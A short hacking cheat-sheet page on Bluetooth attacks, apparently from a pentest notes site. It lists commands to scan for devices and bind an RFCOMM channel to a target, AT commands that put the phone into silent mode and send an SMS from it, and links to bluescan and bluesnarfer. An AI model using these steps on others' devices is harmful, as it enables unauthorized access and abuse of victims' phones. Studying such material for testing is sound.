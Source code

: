 # 🫐 Bluetooth

{% embed url="https://github.com/zedxpace/bluetooth-hacking-" %} Bluetooth Hacking {% endembed %}

## Basics
```bash
# scan peripherals
service bluetooth start
hcitool scan
# or
bluetoothctl scan on

# connect
rfcomm bind 0 $mac $channel_nb
rfcomm bind 0 $mac 6
# connect to the peripheral on channel 6

# AT terminal 
AT*ESIL=1 # activates silence mode
AT+CMGS="+336875648" # sends SMS

```
## Tools
{% embed url="https://github.com/fO-000/bluescan" %} 
{% embed url="https://github.com/kimbo/bluesnarfer" %}

